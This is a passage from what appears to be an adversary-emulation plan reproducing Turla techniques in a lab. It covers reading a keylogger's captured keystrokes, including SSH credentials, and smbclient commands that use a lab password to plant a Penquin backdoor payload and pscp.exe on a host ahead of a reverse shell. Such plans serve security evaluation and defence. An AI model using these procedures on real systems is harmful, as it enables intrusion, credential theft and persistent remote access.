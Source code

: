 * From the elevated Windows Command Prompt, CTRL + C to kill the keylogger

* Execute the following command to output the data written to the keylogger file:
```bat
type %temp%\\~DFA512.tmp
```

:heavy_exclamation_mark: Verify that the keystrokes were logged containing the
website information and Adalwolfa's SSH credentials.

### :moyai: Source Code

* [Keylogger](../../Resources/Keylogger/README.md)
  * [Current hostname discovery](../../Resources/Keylogger/Keylogger/Keylogger/keylogger.cpp#L41)
  * [Token manipulation and session discovery to restart in active session](../../Resources/Keylogger/Keylogger/Keylogger/keylogger.cpp#L579)
  * [Keylogging hook routine](../../Resources/Keylogger/Keylogger/Keylogger/keylogger.cpp#L349)
  * [Set keylogging hook](../../Resources/Keylogger/Keylogger/Keylogger/keylogger.cpp#L719)
  * [Active window discovery](../../Resources/Keylogger/Keylogger/Keylogger/keylogger.cpp#L419)

### :microscope: Cited Intelligence

* <https://securelist.com/the-epic-turla-operation/65545/>
* <https://www.ncsc.admin.ch/ncsc/en/home/dokumentation/berichte/fachberichte/technical-report_apt_case_ruag.html>
* <https://blog.talosintelligence.com/2021/09/tinyturla.html>
* <https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/>

<br>

## Test 7: Penquin

:microphone: `Voice Track:`

Test 7 emulates Turla laterally moving to the Linux Apache server and
installing Penquin. Once Penquin's sniffer has been installed, a magic packet
is sent to the Apache server, from which the sniffer component of Penquin
parses the IP address to connect to, and triggers the establishment of a
reverse shell.

---

### :biohazard: Procedures

:arrow_right: From the "smbclient" tab on the Kali Linux machine, copy over
Penquin and pscp.exe to `khabibulin (10.20.20.104)`:

```bash
smbclient -U 'skt.local\adalwolfa'%'Password2!' //10.20.20.104/C$ -c 'put hsperfdata.zip Windows\Temp\tmp504e.tmp'
smbclient -U 'skt.local\adalwolfa'%'Password2!' //10.20.20.104/C$ -c 'put pscp.exe Windows\System32\pscp.exe'
```

:arrow_right: Switch to your RDP session to `khabibulin (10.20.20.104)`
or, if one was not opened from a previous step, open a new RDP session to
`khabibulin (10.20.20.104)` as `adalwolfa`:
